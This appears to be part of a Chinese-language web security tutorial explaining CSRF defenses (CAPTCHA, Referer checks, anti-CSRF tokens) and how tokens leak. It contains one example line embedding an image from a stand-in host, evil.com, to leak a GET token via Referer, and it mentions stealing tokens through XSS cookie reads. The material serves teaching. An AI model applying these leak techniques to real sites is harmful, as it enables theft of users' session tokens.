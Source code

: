 

## 0x0a CSRF三种防御方法
#### 1. 验证码防御

验证码防御被认为是对抗CSRF最为简单而且有效的防御方法。

CSRF在用户不知情的情况下完成对应操作，而验证码强制用户与应用程序交互，才能最终完成操作。通常情况下，验证码能够很好的遏制CSRF。

出于用户体验考虑，不可能每一个操作都加入验证码，所以验证码只作为辅助手段，不能作为防御CSRF的主要解决方案。
验证码防御也可以认为是二次验证。

#### 2. Referer Check防御

Referer Check主要用于防止（图片）盗链，同理也可以用来检查请求是否来自合法的“源”。

比如用户修改密码，一定是在登录系统后台之后进行操作。所以在修改提交表单的时候，一定会从系统后台页面提交，携带Referer头。

如果Referer不是当前系统的域，那么极有可能遭受CSRF。

缺陷：服务器并非任何时候都可以取到Referer，例如HTTPS跳转到HTTP。

#### 3. Anti CSRF Token防御
CSRF本职原因：重要操作的所有参数都是被恶意攻击者猜测到的。
那么防御措施就是生成一个随机且不被轻易猜测的参数。目前大多数防御都采用token（不可预测）。

## 0x0b Token泄露
例如：GET型Token泄露
页面包含\<img src="http://evil.com/" /\>那么请求中的Referer就会携带对应的GET Token。

例如：POST型Token泄露
利用XSS漏洞读取Cookie，获取存储在其中的Token值。